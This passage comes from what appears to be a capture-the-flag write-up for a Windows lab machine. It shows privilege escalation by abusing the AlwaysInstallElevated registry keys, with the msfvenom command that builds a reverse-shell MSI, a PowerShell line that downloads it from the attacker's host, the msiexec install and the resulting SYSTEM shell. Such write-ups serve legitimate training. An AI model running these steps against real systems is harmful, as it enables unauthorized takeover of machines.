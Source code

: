 I was hoping to recover another password hash that way, but didn't find anything.

Both `WinPEAS` and `PowerUp.ps1` pointed out that the `AlwaysInstallElevated` registry keys were set.

```powershell
PS C:\Users\Phoebe> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
    
PS C:\Users\Phoebe> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

However, I tried abusing this a few different ways and couldn't get a system shell to work. I finally figured out that `msiexec.exe` is finicky about its parameters. The following approach worked.

First, prepare the payload:

```console
$ msfvenom -p windows -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f msi -o ~/www/rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: /home/e/www/rev.msi
```

Fetch the payload to the target and install it via [msiexec](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec):

```powershell
PS C:\Users\Phoebe> iwr 10.10.14.6/rev.msi -outfile rev.msi
PS C:\Users\Phoebe> msiexec /quiet /qn /i rev.msi
```

And that's a system shell:

```powershell
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 64396
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
nt authority\system
PS C:\WINDOWS\system32>
```

### Why PrivEsc Was Hard

I burned most of a day trying to elevate privileges on this box, because a few different attempts at abusing `AlwaysInstallElevated` didn't work, and so I kept trying everything else until I finally came back to this and figured out the issue.

